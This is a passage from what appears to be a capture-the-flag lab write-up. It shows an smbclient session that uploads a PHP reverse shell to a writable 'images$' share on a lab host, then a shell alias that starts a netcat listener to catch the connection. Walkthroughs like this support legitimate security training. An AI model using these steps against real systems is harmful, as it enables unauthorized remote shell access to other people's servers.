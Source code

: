 ```console
└─$ smbclient //10.10.252.40/images$                                                                                                                              1 ⨯
Enter WORKGROUP\viorage's password: 

Try "help" to get a list of possible commands.
smb: \> 
smb: \> put php_reverse_shell.php
putting file php_reverse_shell.php as \php_reverse_shell.php (1.1 kb/s) (average 1.1 kb/s)
smb: \> dir
  .                                   D        0  Fri Apr 22 08:37:48 2022
  ..                                  D        0  Fri Apr 22 08:37:48 2022
  internet-1028794_1920.jpg           A   134193  Sun Jan 10 16:52:24 2021
  man-1459246_1280.png                A   363259  Sun Jan 10 16:50:49 2021
  monitor-1307227_1920.jpg            A   691570  Sun Jan 10 16:50:29 2021
  neon-sign-4716257_1920.png          A  1461192  Sun Jan 10 16:53:59 2021
  php_reverse_shell.php               A     9302  Fri Apr 22 08:37:48 2022

                10861311 blocks of size 4096. 4139955 blocks available
smb: \> 
```

Shell - 

![rev](rev_shell.png)

You might notice I use a .zshrc alias for my listener. This alias is simply for a windows listener using rlwrap and netcat.

```bash
alias wlistener="sudo rlwrap nc -lvnp 443"
```

___

## Initial Access

With access we can answer a few of the questions.

![sign](sign.png)
